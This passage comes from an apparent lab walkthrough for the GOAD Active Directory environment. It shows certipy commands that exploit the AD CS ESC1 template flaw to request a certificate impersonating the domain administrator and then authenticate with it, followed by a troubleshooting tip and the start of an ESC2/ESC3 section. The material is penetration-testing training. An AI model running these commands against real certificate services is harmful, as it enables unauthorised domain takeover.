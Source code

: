 - query the certificate
  - target : the ca server
  - tempalte : the vulnerable template
  - upn : the target user we want to impersonate

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
```

- authentication with the pfx we request before

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

> if you get the error : "[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)", the lab is in error, i don't know why sometimes it is not working by now, but you can reboot DC3 to fix this: `vagrant reload DC03`

![adcs_exploit_esc1.png](/assets/blog/GOAD/adcs_exploit_esc1.png)

## ADCS - ESC2 & ESC3

![mindmap_adcs_esc23.png](/assets/blog/GOAD/mindmap_adcs_esc23.png)

- As said in the certipy page : _"ESC2 is when a certificate template can be used for any purpose. Since the certificate can be used for any purpose, it can be used for the same technique as with ESC3 for most certificate templates."_

- Let's distinguish the 2 attacks by trying with ESC2 :

